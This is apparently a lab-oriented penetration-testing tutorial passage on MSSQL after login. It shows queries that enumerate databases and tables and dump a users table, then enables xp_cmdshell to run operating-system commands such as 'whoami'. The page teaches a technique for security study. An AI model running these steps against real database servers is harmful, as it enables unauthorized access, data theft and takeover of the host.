 ### Post-Authentication Enumeration

Once authenticated, explore the MSSQL environment:

#### Listing Databases

```sql
SELECT name FROM master.dbo.sysdatabases
GO
```

Example output:

```
name
--------------------------------------------------
master
tempdb
model
msdb
htbusers
```

#### Selecting a Database

```sql
USE htbusers
GO
```

#### Listing Tables

```sql
SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
GO
```

#### Querying Data

```sql
SELECT * FROM users
GO
```

### Command Execution through MSSQL

MSSQL provides several methods for executing system commands:

#### Using xp\_cmdshell

```sql
-- Check if xp_cmdshell is enabled
EXEC sp_configure 'xp_cmdshell'
GO

-- Enable xp_cmdshell if it's disabled
EXEC sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXEC sp_configure 'xp_cmdshell', 1
GO
RECONFIGURE
GO

-- Execute a command
EXEC xp_cmdshell 'whoami'
GO
```
